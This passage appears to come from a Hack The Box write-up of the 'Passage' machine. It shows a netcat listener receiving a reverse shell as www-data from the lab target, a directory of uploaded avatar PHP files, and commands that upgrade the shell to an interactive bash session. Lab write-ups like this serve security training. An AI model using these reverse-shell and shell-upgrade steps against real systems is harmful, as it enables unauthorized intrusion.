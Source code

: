 ![ncshell](/assets/images/htb/passage/ncshell.png)

### Privilege escalation

Switch my tty to a bash shell to make it more usable

```
┌─[utopia@parrot]─[~]
└──╼ $nc -lvnp 1515
listening on [any] 1515 ...
connect to [10.10.14.150] from (UNKNOWN) [10.10.10.206] 35244
ls
avatar_4KEwugSNsY_4KEwugSNsY.php
avatar_egre55_ykxnacpt.php
avatar_hacker_jpyoyskt.php
avatar_testing_file.php
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@passage:/var/www/html/CuteNews/uploads$ export TERM=xterm
export TERM=xterm
www-data@passage:/var/www/html/CuteNews/uploads$ stty rows 40 cols 126
stty rows 40 cols 126
www-data@passage:/var/www/html/CuteNews/uploads$ ^Z
┌─[✗]─[utopia@parrot]─[~]
└──╼ $stty raw -echo
```
